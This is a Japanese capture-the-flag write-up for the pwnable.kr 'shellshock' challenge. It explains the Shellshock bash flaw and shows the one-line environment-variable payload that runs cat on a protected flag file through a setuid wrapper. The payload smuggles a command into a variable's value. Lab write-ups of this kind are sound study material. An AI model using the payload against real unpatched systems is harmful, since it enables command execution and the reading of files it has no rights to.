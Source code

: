 # 内容
shellshockという名称の脆弱性を用いる問題。
まず、ログインしてみる。

```bash
ssh shellshock@pwnable.kr -p2222
shellshock@pwnable.kr's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Thu Jul 25 21:29:26 2019 from 101.7.158.247
shellshock@prowl:~$ ls
bash  flag  shellshock  shellshock.c
shellshock@prowl:~$ ls -la
total 980
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 114 root root             4096 May 19 15:59 ..
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
d---------   2 root root             4096 Oct 12  2014 .bash_history
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
shellshock@prowl:~$ ./bash
shellshock@prowl:~$ exit
exit
shellshock@prowl:~$ ./shellshock
shock_me
shellshock@prowl:~$ cat flag
cat: flag: Permission denied
shellshock@prowl:~$ cat ./shellshock.c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}

shellshock@prowl:~$
```

この問題は知らなとできない。
この問題はshellshockと呼ばれる脆弱性**CVE-2014-7169**の問題で、
bashで任意のコードを実行できる脆弱性らしい。

問題は環境変数で関数を定義した後、コマンドを実行すると起きる。
例えば以下である。

```bash
env f='() { :;}; echo test' ./bash -c "echo a"
test
a
```

このスクリプトを分解すると、以下のようになる

1. 環境変数に関数を定義する
  * env f='() { :;};'
2. 関数の続きで適当なコマンドを打つ。今回はechoコマンド
  * env f='() { :;}; echo test'
3. bashを実行する。
  * env f='() { :;}; echo test' ./bash -c "echo a"

まず、bashコマンドを実行すると、環境変数を読み込む仕様であることは知られていると思う(関数も環境変数に定義できる)。
つまり、最初に定義した関数を読み込むことになる。

しかし、ここで問題になってくるのがbashの脆弱性。
環境変数を読み込むのはいいが、関数を読み込み、さらにその先のコマンドも読み込んでしまう。
つまり、関数の次に任意のコマンドを入れれることになってしまう。
そのため、今回はcatコマンドを使いflagをゲットしようという算段である。

# 解答
```bash
env f='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

フラグゲット。
